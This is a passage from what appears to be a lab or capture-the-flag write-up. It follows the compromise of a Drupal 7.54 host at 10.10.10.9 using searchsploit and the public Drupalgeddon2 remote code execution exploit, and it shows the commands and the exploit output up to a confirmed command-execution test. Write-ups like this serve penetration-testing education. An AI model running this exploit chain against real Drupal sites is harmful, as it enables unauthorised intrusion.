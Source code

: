 ```none
- Numerous bug fixes.
- Numerous API documentation improvements.
- Additional performance improvements.
- Additional automated test coverage.

... CONTENT SNIPPED ...
```

At this point, I went ahead and searched for known vulnerabilities that affcted Drupal <= 7.54:

```none
$ searchsploit drupal 7
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                            |  Path
 ---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 ...CONTENT SNIPPED...
 Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution                                                                       | php/webapps/44449.rb
 ...CONTENT SNIPPED...
 ---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------

```

### Exploiting Drupal

I mirrored the remote code execution exploit above to my current working directory:

```bash
searchsploit -m php/webapps/44449.rb
```

I also needed to install a missing ruby dependency to run the script:

```none
$ sudo gem install highline
Fetching highline-2.0.3.gem
Successfully installed highline-2.0.3
Parsing documentation for highline-2.0.3
Installing ri documentation for highline-2.0.3
Done installing documentation for highline after 2 seconds
1 gem installed
```

At this point, I ran the exploit:

```none
$ ruby 44449.rb http://10.10.10.9
ruby: warning: shebang line ending with \r may cause problems
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://10.10.10.9/
--------------------------------------------------------------------------------
[+] Found  : http://10.10.10.9/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.54
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Clean URLs
[+] Result : Clean URLs enabled
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo KYYRHMWO
[+] Result : KYYRHMWO
```